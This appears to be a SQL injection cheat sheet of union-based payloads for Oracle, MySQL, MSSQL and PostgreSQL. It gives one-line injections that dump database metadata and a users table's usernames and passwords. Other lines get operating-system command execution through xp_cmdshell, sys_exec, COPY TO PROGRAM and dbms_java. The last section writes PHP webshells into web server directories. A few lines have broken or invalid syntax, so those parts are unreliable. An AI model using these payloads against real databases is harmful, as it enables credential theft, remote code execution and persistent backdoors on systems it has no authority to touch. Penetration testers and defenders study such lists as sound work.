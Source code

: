 ```
#####
# O #
#####
# current DB, USER, VERSION
' union select null, SYS_CONTEXT('USERENV', 'DB_NAME'), user, VERSIONS('Oracle'), null, null, ... --//

# dump TABLES w/ COLUMNS (use FROM all_tab_columns for all sbs)
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=SYS_CONTEXT('USERENV', 'DB_NAME') --//

# dump Specific Table
' UNION SELECT null, username, password, description, null FROM users --//
```
## A) Union based RCE
```
######
# My #
######
' UNION SELECT NULL, NULL, sys_exec('id > /tmp/mysql_output.txt') --//
' UNION SELECT NULL, NULL, LOAD_FILE('/tmp/mysql_output.txt') --//
```

```
######
# MS #
######
' UNION SELECT null, null, cast((EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AS NVARCHAR(4000)) --//
' UNION SELECT null, null, CAST(xp_cmdshell('dir') AS NVARCHAR(4000)) --// 
' UNION SELECT null, null, CAST(xp_cmdshell('PAYLOAD') AS NVARCHAR(4000)) --//
```

```
#####
# P # (REQUIRES SUPER)
#####
' UNION SELECT NULL, NULL, COPY (SELECT 'id') TO PROGRAM 'id > /tmp/output.txt' --//
' UNION SELECT NULL, NULL, pg_read_file('/tmp/output.txt', 0, 100) --//
```

```
#####
# O #
#####
' UNION SELECT null, null, dbms_java.runjava('java.lang.Runtime.getRuntime().exec("id > /tmp/oracle_output.txt")') FROM dual --//
' UNION SELECT null, null, utl_file.fread('/tmp', 'oracle_output.txt') FROM dual --//
```
## B) Write to File
```
######
# My # (webshell write)
######
' UNION SELECT null, null, "<?php system($_GET['cmd']);?>", null INTO OUTFILE "/var/www/html/tmp/webshell.php" --//
select null, null, "<?php echo shell_exec($_GET['cmd']);?>", null into OUTFILE 'C:/xampp/htdocs/back.php' --//
```
